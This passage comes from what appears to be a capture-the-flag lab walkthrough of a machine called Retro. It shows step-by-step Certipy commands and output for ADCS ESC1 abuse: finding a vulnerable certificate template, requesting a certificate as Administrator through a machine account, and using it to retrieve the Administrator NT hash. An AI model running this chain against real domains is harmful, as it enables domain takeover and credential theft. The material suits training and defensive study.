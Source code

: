 The tool to abuse this is [Certipy](https://github.com/ly4k/Certipy) (on Linux), if we were on a Windows machine we'd use [Certify](https://github.com/GhostPack/Certify).

```
└─$ certipy-ad find -username 'banking$'@retro.vl -password 'daz' -dc-ip 10.10.124.140 -vulnerable -enabled
```

It will save the responding certificates that we are able to exploit into a file after the command has finished. (I took a break at this point, so the IP address will change)

```
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
[...snip...]
    [!] Vulnerabilities
      ESC1                              : 'RETRO.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

The certificate tells us that all domain computers can enroll in this template and that it requires client authentication. Given that we have a domain computer account `banking$`, all that's required is to request this certificate on behalf of another user. Since we are allowed to request this on behalf of any user, let's do this for the Administrator user.

Note that you will need to adjust the `-key-size` option to a value higher than `4096` to prevent a NetBIOS error.

```
└─$ certipy-ad req -u 'banking$'@retro.vl -p 'daz' -dc-ip 10.10.111.59 -target DC.retro.vl -ca retro-DC-CA -template RetroClients -upn Administrator@retro.vl -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with UPN 'Administrator@retro.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

This `.pfx` file is a joined file that includes the certificate along with the private key for this user. We can use this `.pfx` file to authenticate and retrieve the Administrator user's NTLM hash.

```
└─$ certipy-ad auth -dc-ip 10.10.111.59 -domain 'retro.vl' -username Administrator -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:[...snip...]
```
